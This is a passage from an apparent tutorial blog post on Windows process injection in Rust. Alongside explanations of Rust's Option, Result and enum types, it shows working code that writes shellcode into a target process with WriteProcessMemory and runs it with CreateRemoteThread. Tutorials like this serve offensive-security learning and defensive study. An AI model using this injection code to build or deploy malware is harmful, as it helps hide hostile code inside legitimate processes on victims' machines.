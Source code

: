 We might have to import the `null() & null_mut()` from `std::ptr` crate and also the `MEM_COMMIT, MEM_RESERVE, PAGE_EXECUTE_READWRITE` from the same crate as the function `VirtualAllocEx`. We can see the function definition in VSCode if we hover over the function.

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### `Some` & `Option` in Rust

Due to the way the function is defined, I had to use `Some()` to wrap the `null()` which didn't make much sense to me. But think of `Some` as it either has `Some` value or `None`. It is a variant of the `Option` type in Rust. Quoting the rust document

> The problem with null values is that if you try to use a null value as a not-null value, you’ll get an error of some kind. Because this null or not-null property is pervasive, it’s extremely easy to make this kind of error.

So the [Option](https://doc.rust-lang.org/book/ch06-01-defining-an-enum.html?highlight=Option#the-option-enum-and-its-advantages-over-null-values) is used to include the scenario in which the variable would not have any value , aka null. Rust forces you to handle the cases where the variable could potentially be null and thereby avoid any kind of bugs related to it.

#### `Result` & `Enums` in Rust

The `Result` is an enum in rust and it has 2 outcomes.  either it passes `Ok(T)` or it fails with an `Err(E)` and whenever we have a type of Result, it's our duty to handle both of the outcomes. In general, an [enum](https://doc.rust-lang.org/book/ch06-01-defining-an-enum.html) is when a variable can have any value of different types. So like if there's an enum of type `IP Address`, It can have both the `IPV4` and `IPV6` which would be of 2 different types (assume) and since we don't know what type are we going to handle, we use an enum instead and handle both of the values accordingly.

### Write Shellcode to Allocated Memory

Ok back to process injection, now we have to write the shellcode into the process memory.

<pre class="language-rust"><code class="lang-rust">let status_write = WriteProcessMemory(hProcess, buf, shellcode.as_ptr() as *const c_void, shell_size, Some(null_mut()));
if status_write.is_err() {
        eprintln!("Error Writing shellcode to Memory: {:?}", GetLastError());
<strong>        std::process::exit(3);
</strong>}
println!("Written shellcode to process");
</code></pre>

I had some trouble while writing this piece of code, because the shellcode should be of type `*const c_void` but we had defined a vector shellcode, so after some research, I did it by changing that to a pointer and from that to `*const c_void`. Note that we have to import `c_void` from `std::mem`. Then finally creating the thread to run our shellcode.

### Create Remote Thread for Shellcode

```rust
let hThread = CreateRemoteThread(hProcess, None, 0, transmute(buf), None, 0, None);
if let Ok(hThread) = hThread {
    println!("Created Remote Thread : {:?}", hThread);
} else {
    eprintln!("Error Creating Remote Thread: {:?}", GetLastError());
    std::process::exit(4);
}
```
